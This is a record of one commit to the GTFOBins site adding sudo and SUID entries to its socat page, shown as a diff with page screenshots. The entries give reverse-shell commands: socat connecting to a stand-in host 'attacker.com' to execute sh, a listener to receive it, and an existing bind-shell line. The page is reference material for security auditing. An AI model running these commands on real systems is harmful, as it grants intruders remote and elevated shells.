

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/socat.md, in a window 1280 px wide. Shown: the whole page at 87% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 900 px from its top, so only the background shows below that.

Commit message:
Add sudo-enabled and suid-limited to socat

```diff
--- a/_gtfobins/socat.md
+++ b/_gtfobins/socat.md
@@ -11,4 +11,16 @@ functions:
       code: |
         LPORT=12345
         socat TCP-LISTEN:$LPORT,reuseaddr,fork EXEC:sh,pty,stderr,setsid,sigint,sane
+  sudo-enabled:
+    - description: Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
+      code: |
+        RHOST=attacker.com
+        RPORT=12345
+        sudo -E socat tcp-connect:$RHOST:$RPORT exec:sh,pty,stderr,setsid,sigint,sane
+  suid-limited:
+    - description: Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
+      code: |
+        RHOST=attacker.com
+        RPORT=12345
+        ./socat tcp-connect:$RHOST:$RPORT exec:sh,pty,stderr,setsid,sigint,sane
 ---
```
